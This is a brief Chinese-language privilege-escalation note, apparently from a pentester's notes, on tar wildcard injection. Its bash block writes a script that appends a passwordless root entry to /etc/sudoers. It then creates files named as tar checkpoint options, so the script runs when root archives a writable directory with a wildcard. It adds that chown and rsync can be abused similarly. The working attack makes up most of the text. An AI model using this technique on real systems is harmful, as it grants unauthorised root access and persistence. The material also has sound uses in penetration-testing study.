



1. 写入脚本
2. 利用命令中某些可利用执行脚本的选项，创建具有这些选项名称的文件
3. tar提权
```bash
echo 'echo "用户名 ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

4. 首先需要root用户在root.sh这个自定脚本目录执行tar带参数的压缩命令，才可以触发。如果碰巧遇到了定时压缩文件可写目录的操作，可以一试。利用截图：[](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124526103.png)<br />[](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124543668.png)<br />[](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827124559823.png)
5. 类似的通配符还有chown和rsync
